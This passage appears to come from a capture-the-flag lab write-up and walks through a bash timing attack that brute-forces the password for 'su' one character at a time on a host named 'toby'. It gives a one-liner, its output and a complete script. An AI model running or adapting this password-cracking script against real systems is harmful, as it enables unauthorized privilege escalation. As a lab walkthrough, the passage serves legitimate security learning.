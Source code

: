 

    python3 -c 'import string; print("\n".join(string.printable[:-5]))' 
    | while read c; do 
        echo -en "\r$c "; 
        echo "${c}---------" 
        | time su 2>&1 
        | grep -Eo '.:..\...elapsed' 
        | grep -v "0:01.0" && break; 
    done



This works, and finds the first character of the password:



    jack@toby:/etc$ python3 -c 'import string; print("\n".join(string.printable[:-5]))' | while read c; do echo -en "\r$c "; echo "${c}---------" | time su 2>&1 | grep -Eo '.:..\...elapsed' | grep -v "0:01.0" && break; done
    T 0:01.11elapsed



Here's how it looks (starting midway into the run):

![](/img/toby-brute-poc.gif)

#### Full Script

At this point, I am going to leave this bash one liner in favor of a
bash script. I have to make the following updates:

-   I know the password is ten characters, so I'll wrap what I have in a
    loop over 0-9. It also takes 0.1 seconds longer per correct
    character, so I'll use that `i` variable to update the `grep`.
-   To print the password plus padding to get to 10 characters I'll use
    `printf` instead of `echo`.
-   I also want to keep a variable with the correct password. I have to
    get rid of piping into `while read`, as that [runs in a
    subshell](https://unix.stackexchange.com/questions/402750/modify-global-variable-in-while-loop),
    which means changes I make to the variable aren't saved. A slight
    change in how I feed into the `while` fixes that.
-   I'll update the password on each loop.

The resulting script is:



    #!/bin/bash

    correct=""
    for i in {0..9}; do
        while read c; do   
            pass="${correct}${c}"
            echo -en "\r${pass} ";     
            printf "%-10s\n" $pass \
            | time su 2>&1 \
            | grep -Eo '.:..\...elapsed' \
            | grep -v "0:01.${i}" \
            && correct="${pass}" \
            && break;
           done <<<$(python3 -c 'import string; print("\n".join(string.printable[:-5]))')
    done
